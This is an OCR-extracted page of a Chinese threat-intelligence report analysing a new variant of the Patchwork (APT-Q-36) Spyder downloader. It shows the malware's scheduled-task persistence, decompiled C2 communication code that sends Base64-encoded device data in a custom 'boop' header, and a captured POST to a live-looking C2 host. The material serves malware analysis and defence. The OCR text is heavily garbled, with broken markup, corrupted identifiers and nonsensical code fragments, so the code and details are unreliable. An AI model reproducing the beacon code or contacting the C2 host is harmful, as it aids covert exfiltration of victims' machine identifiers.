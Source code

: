 
<html><body><table><tr><td colspan="4">zlibdatacompressionA zlib data compressionB zlib datacompression C</td><td colspan="2">准备就绪 在 准备就绪 准备就绪</td><td colspan="3">的14:00时 的15:00时 的16:00时</td></tr><tr><td colspan="4">zlibdatacompressionD zlib data compression E</td><td colspan="2">准备就绪 准备就绪</td><td>在在在在</td><td>的17:00时 的18:00时</td></tr><tr><td colspan="8"></td></tr><tr><td>常规</td><td>触发器</td><td>操作</td><td>条件</td><td>设置</td><td colspan="2">历史记录（已禁用）</td><td></td></tr><tr><td colspan="8">创建任务时，必须指定任务启动时发生的操作。若要更改这些操作，使用“属性”命令打开任务</td></tr><tr><td colspan="2">操作 详细信息</td><td colspan="8"></td></tr><tr><td colspan="2">启动程序</td><td colspan="8">CA\Users AppData\Local\zlib1.exe</td></tr><tr><td colspan="8"></td><td colspan="2"></td></tr></table></body></html>  

样本与C2服务器的通信数据放在POST请求首部的自定义字段（该样本为"boop"）中，数据为经过Base64编码的JSON字符串，Base64编码后还会对部分字符进行替换处理。  

10 dwNumberofBytesRead=0;   
11 hMem $\Bumpeq$ (CHAR\*)GLobalALLoc(Ox40u,2\*arg_sz);   
12 v8 $=$ Internetopenw(   
13 LMozilla/5.0（Macintosh;Intel Mac 0sX 10_15_7) AppleWebKit/537.36（KHTML,like Gecko)Chrome/104.0.5112.79 Safari/537.36",   
14 1u,   
15 0，   
16   
17 0);   
18 hInternet $=$ InternetConnectw(v8,&g_struct_4c3670->wstr_host,0x50u,0,0,3u,0,0);   
19 v4=HttpOpenRequestW（hInternet,L"PosT",&g_url,0,0,0,0,0);   
20 wsprintfA（hMem,"boop:%s\r\n",arg_content);   
21 HttpAddRequestHeadersA(v4,hMem,0xFFFF,OxA000ooo0);   
22 tf ( IHttpSendRequestW(v4, 0, 0, 0, 0) )   
23 return 1;   
24 v6=1;   
25 if(InternetReadFile(v4，arg_recv_buf,0x40ou，&dwNumberofBytesRead))   
26 v6 = 17;   
27 InternetcloseHandle(v4);   
28 InternetCloseHandle(hInternet);   
29 InternetCloseHandle(v8);   
30 GlobaLFree(hMen);   
31 return v6;  

POST/soup/pencil.phpHTTP/1.1   
boop:eyJ4ZG11 1BR1F   
BI fQ--   
User-Agent:Mozilla/5.0(Macintosh;Inte1 Mac 0SX10_15_7) AppleWebKit/537.36(KHTML,1ike Gecko) Chrome/104.0.5112.79 Safari/537.36   
Host: onlinecsstutorials.com   
Content-Length:0   
Cache-Control:no-cache   
for(result $=\textcircled{-}$ :result $\ll$ a2;++result   
f v4=\*（_BYTE \*)（a1+result); switch（v4) case \*（_BYTE \*)（a1 +result）= break; case \*（_BYTE \*)(a1 +result) break; case $^1={}^{\circ}$ \*（_BYTE \*)（a1+result）= break;   
7  

样本向C2 服务器的"/soup/pencil.php”发送的JSON字符串包含两部分固定的内容，分别是："xdid"（感染设备的MachineGUID）和"about"（样本配置数据中的字符串“O.0.0.1"，可能是版本号）。  

摩诃草（APT-Q-36）Spyder下载器新变种及后续组件分析  
